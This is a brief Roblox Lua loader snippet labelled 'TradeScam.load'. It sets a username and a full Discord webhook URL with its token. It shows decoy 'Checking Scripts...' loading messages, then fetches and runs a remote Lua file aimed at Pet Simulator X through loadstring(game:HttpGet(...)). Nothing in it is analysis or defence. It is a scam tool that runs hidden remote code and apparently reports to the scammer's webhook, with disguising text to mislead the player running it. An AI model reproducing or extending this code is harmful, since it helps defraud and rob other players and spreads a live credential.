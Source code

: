 Username = "Muhammed168T"

WebHook = "https://discord.com/api/webhooks/1075439240197980271/IZxq9R___tgN5ejrkwG-mh2FIwLdZNO5yt7GyPXWBp8pdrKHNYpxgQGb9hA7z99UpPGg"

_G.CustomScriptName = "TradeScam.load"

_G.Text1 = "Script Loaded..."

_G.Text2 = "Waiting for Script"

_G.Text3 = "Checking Scripts..."

_G.Text4 = "Starting Scripts..."

loadstring(game:HttpGet("https://raw.githubusercontent.com/Justanotherdme/petsimx22/main/petsimguiss.lua"))()
